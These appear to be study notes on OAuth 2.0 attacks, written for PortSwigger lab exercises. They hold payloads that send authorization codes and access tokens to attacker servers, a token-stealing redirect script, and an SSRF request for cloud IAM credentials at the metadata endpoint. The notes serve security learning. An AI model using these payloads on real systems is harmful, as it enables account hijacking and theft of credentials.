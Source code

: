 # Resources
- [Portswigger - Oauth](https://portswigger.net/web-security/oauth)
- [OAuth Authentication Playlist - Michael Sommer](https://www.youtube.com/playlist?list=PL0W_QjMcqdSDySnTew-bKmqIu89ltfqkh)
# Key points
We are talking about OAuth 2.0
We are focusing on the **implicit** and **authorization code** grant types as they are the most common ones
For the authorization code grant type the API requests for the user's data happen in a secure backend channel between the client app and the oauth server
For the implicit grant type the API requests for the user's data happen via browsers redirects and are visible to the user
Do recon of the public API of the OAuth provider to become familiar with it
Some requests to try to find more information:
```html
/.well-known/oauth-authorization-server
/.well-known/openid-configuration
```
- Scope: Defines the data that will be granted access to
- State parameter: Used to prevent CSRF attacks
# Vulnerabilities
- Authentication bypass via OAuth implicit flow
    - The application wants to maintain a session, so it sends the OAuth data via a POST request to store the data and send a session cookie
    - The server does not have a secret or password to compare to, so the data sent is implicitly trusted
    - The attacker can manipulate it and access another account
- Forced OAuth profile linking - Link victim's account to attacker's social media
    - Missing `state` parameter
    - Use the `linking-code` generated while associating social-media-profiles:accounts to create a payload (use an iframe) to serve to the victim
    ```html
    src="https://website/oauth-linking?code=STOLEN-CODE"
    ```
- OAuth account hijacking via redirect_uri - Steal victim's authorization code
    - The redirect_uri parameter is not being validated it. Test it with a burp collaborator payload or the exploit server
    - Use a redirection vulnerability to steal the access code to hijack the victim's account. Embed the payload into an iframe
    ```html
    src="https://oauth-server.net/auth?client_id=ID&redirect_uri=https://attacker-server.net&response_type=code&scope=openid%20profile%20email"
    ```
- Stealing OAuth access tokens via an open redirect - Steal victim's access token
    - Test redirect_uri parameter validation mechanism
    - Find a open redirect vulnerability and chain it with path traversal
    - Redirect the user to the exploit server
    - Notice that the access token is returned as a url fragment. The payload has to be crafted to extract it
    ```html
    <script>
        if (!document.location.hash) {
            window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
        } else {
            window.location = '/?'+document.location.hash.substr(1)
        }
    </script>
    ```
    - Steal the access token
- OpenID unprotected dynamic client registration + SSRF
    - Use oauth service providers' commonly known files to gather information
    ```http
    https://oauth-server.com/.well-known/openid-configuration
    ```
    - Extract the registration endpoint
    - Send a POST request to register your own application. The response should return the client-id
    ```http
    {
        "redirect_uris" : [
            "https://example.com"
        ]
    }
    ```
    - Inspect the oauth flow and notice that resources are fetched from /client/client-id/logo
    - Register a new application and add the logo_uri parameter. Test for SSRF by injecting the parameter with the collaborator payload
    ```http
    {
        "redirect_uris" : [
            "https://example.com"
        ],
        "logo_uri" : "https://collaborator-payload"
    }
    ```
    - Once SSRF has been confirmed, send a new registration but this time fetch the instance metadata endpoint to extract cloud sensitive information
    - logo_uri payload:
    ```http
    http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/
    ```
    - Make a request to `GET /client/client-id/logo` to retrieve the clould environment data
